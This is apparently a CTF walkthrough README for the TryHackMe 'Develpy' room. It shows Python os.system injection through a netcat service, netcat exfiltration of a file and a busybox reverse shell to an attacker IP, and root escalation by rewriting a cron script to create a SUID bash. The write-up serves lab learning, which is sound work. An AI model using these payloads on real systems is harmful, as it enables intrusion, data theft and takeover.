







# Develpy CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Develpy** CTF challenge on [TryHackMe](https://tryhackme.com/room/bsidesgtdevelpy). 
---


we see open ports 22 and 10000



we can use netcat to connect to port 10000, we are prompted to input a number

the output looks like modified ping command



i asked AI how we could try to exploit this and it suggested:

```
__import__('os').system('ls')
```

and it worked we see some files



```
__import__('os').system('cat exploit.py')
```

here we can see the code that is run



```
__import__('os').system('cat user.txt')
```

at this point we can also grab user flag



we see file credentials.png, we can try to transfer it to our machine using netcat

```
VICTIM:
__import__('os').system('nc 10.14.91.59 4444 < credentials.png')

ATTACKER:
nc -lvp 4444 > credentials.png
```

this seems like a dead end, there is nothing interesting in this file


instead of using this python syntax we can try to open reverse shell to gain shell access

```
__import__('os').system('busybox nc 10.14.X.X 4445 -e /bin/bash')
```

and it works we have access as king



after running linpeas we see cronjobs that will execute as root


we can remove the /home/king/root.sh and create our own 

```
$ rm root.sh
$ echo "cp /bin/bash /tmp/bash && chmod +s /tmp/bash" > root.sh
$ ls -la /tmp
$ /tmp/bash -p
```

now we wait for our script to execute

now we have access as root and root flag



# MACHINE PWNED

